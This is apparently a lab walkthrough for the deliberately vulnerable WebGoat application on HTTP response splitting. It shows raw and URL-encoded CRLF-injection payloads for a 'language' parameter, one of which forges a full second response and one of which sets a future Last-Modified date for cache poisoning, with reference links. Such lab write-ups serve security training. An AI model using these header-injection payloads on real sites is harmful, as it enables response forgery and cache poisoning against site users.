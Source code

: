 ```yaml
---
title: "OWASP Broken Web Applications - WebGoat Walkthrough (Part 2)"
date: 2020-01-22
categories:
  - OWASP-BWA
tags:
  - Bugbounty
  - Walkthrough
---
```


# GENERAL
<details><summary> HTTP SPLITTING </summary>
<p>

### (part 1)
Using [urlencoder](https://www.urlencoder.org/) under 'destination newline seperator' select 'Unix'
```
language=en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 10
<html>Test</html>
```

turns to
```
language%3Den%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2010%0A%3Chtml%3ETest%3C%2Fhtml%3E%0A%0A
```

Note: 
But you will notice that using the `%0a` works while `%0a%0d` doesn't. This is due to the underlying os environment that the application is running on: windows uses two characters for the *CR LF* sequence, while unix only uses *LF*.


| Environment  | CRLF Used  | encoded |
| ------------ |----------- | ------- |
| Windows      | CRLF       | %0d%0a  |
| Unix         | LF         | %0a     |

[https://stackoverflow.com/questions/1552749/difference-between-cr-lf-lf-and-cr-line-break-types](https://stackoverflow.com/questions/1552749/difference-between-cr-lf-lf-and-cr-line-break-types)

### CRLF / HTTP header injection
[https://owasp.org/www-community/attacks/HTTP_Response_Splitting](https://owasp.org/www-community/attacks/HTTP_Response_Splitting)

[https://portswigger.net/kb/issues/00200200_http-response-header-injection](https://portswigger.net/kb/issues/00200200_http-response-header-injection)

### log poisoning using CRLF
[https://www.netsparker.com/blog/web-security/crlf-http-header/](https://www.netsparker.com/blog/web-security/crlf-http-header/)


### (part 2)
Note: inject the `Last-Modified` date to a future date which forces the browser to send an `If-Modified-Since` request header to future requests
*encode uri for below*
```
language=en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Fri, 1 Jan 2030 00:00:00 GMT
Content-Length: 4
<html>Test</html>
```
</p>
</details>
